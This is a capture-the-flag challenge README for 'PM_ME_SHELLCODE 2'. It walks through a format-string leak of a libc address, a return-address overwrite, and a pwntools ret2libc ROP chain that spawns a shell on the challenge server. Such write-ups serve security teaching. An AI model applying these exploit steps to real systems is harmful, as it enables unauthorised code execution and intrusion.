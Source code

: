 Inspired by an old problem <https://github.com/utisss/ctf/tree/master/2020/ctf-10-16-2020/binary-shellcode2>
That problem's README has been included below
This updated problem has a twist of applying an atbash cipher on the input before passing to printf

# PM_ME_SHELLCODE 2
# Difficulty: Medium

Assumption: Know about printf exploits, basic stack overflows, basic ROP theory
Ping me on discord (`garrettgu10#8125`) if you don't know these~!

We are told that this binary runs with ASLR enabled. Our first step is then to 
leak the libc base address, since this changes every time the binary runs.

We can leak values off the stack using the printf exploit, since printf() is 
called directly with our buffer, so we can input "%llx %llx %llx %llx" to leak
four 64-bit values off the stack. 

How do we know which value is a libc address? We can first run this binary 
"normally" under gef, then run "info sharedlibrary" to find the location that
libc is loaded into, for instance `0x00007ffff7de7630` - `0x00007ffff7f5c08f`.

We can then inspect the four leaked 64-bit values off the stack to find one 
that falls within this range. In this instance, the third value happens to be 
`7ffff7fad980`; we can run `x 7ffff7fad980` to find that this corresponds to
the symbol `_IO_2_1_stdin_`. 

However, we run into a problem. The program exits as soon as we leak the 
addresses. We can avoid this by overwriting the return address of `main()` with
`main()` itself, allowing us to start the program again. We run `disass main` 
to inspect the disassembly of `main()`. We see that the program subtracts 
`0x30` or 48 bytes from rbp in order to allocate the buffer. This means that 
our return address is 48 + 8 = 56 bytes away from the start of the buffer. The
extra 8 bytes are for the pushed rbp at the start of the function. 

Let's try overwriting the the return address of `main()` with `main()`. In GEF,
we can pipe the output of a python script to the input of the program using
`<<<`. We get the start of `main()` to be at`0x0000000000401176` from the 
disassembly from earlier. We can try this out with the following command:  
```run <<< $(python3 -c "import os; from pwn import *; os.write(1, b' '*56 + p64(0x0000000000401176) + b'\n');")```

We see that "Enter something" prints out twice, meaning our return address 
overwrite worked! Yay!

Let's start writing our pwntools script. We open the provided binary and libc:  
```python
from pwn import *

libc = ELF("libc-2.23.so")
e = ELF("shellcode")
```

In our pwntools script, we can combine the return address overwrite with the
stack leak:
```python
conn = remote("ctf.isss.io", 9009)
conn.recvline() # to "swallow" the "Enter something: " prompt
conn.send(b'%3$llx ' + b' '*(56 - 7) + p64(e.symbols['main']) + b'\n')
```
Note that `%3$llx` is just C-format-string for "give me the third item from the
stack as a 64-bit hex value."

We can then grab the leaked libc address as such, since it is followed by a 
space:
```python
io21 = int(conn.recvline().split(b' ')[0], 16)
```

We can get the libc base address by subtracting the offset of `_IO_2_1_stdin_`
relative to the base address:
```python
libcoff = io21 - libc.symbols['_IO_2_1_stdin_']
```

Finally, we want to perform a ret2libc by simulating a call to 
`system("/bin/sh")`. First we find where the string `/bin/sh` occurs within
libc:
```python
binsh = next(libc.search(b'/bin/sh')) + libcoff
# we add libcoff to get the real location of the string in the context of
# the running process
```

Since the first argument of any function is located at `rdi`, we need `rdi` to
point to our string. So we need to finda ROP gadget to `pop rdi` off the stack:
```python
rop = ROP(e)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
```

Putting everything together, we send the following payload:
```python
conn.send(b' '*56 + p64(poprdi) + p64(binsh) + p64(libcoff + libc.symbols['system']) + b'\n')
```

It's a bit hard to see what's going on in that last command, but once main() 
returns, it will return instead to the value we placed after the 56 bytes of
filler, which in this case is the location of the `pop rdi` gadget. Since a
`ret` was performed, that gadget location is now popped, so the stack pointer
now points to `p64(binsh)`, which is a pointer to where the string `/bin/sh`
occurs in the process's address space. The `pop rdi` gadget will then pop the
address into `rdi`, and `ret`. The `ret` will pop a return address off the 
stack which in this case happens to be `p64(libcoff + libc.symbols['system'])`,
or the entry point of `system()`. Since we popped `rdi`, `system()` will see 
that the value of `rdi` points to `"/bin/sh"`, so we get a shell!

The full solution code is available here at `solution.py`. Please ping me on 
Discord (`garrettgu10#8125`)if you have any issues understanding the exploit ^^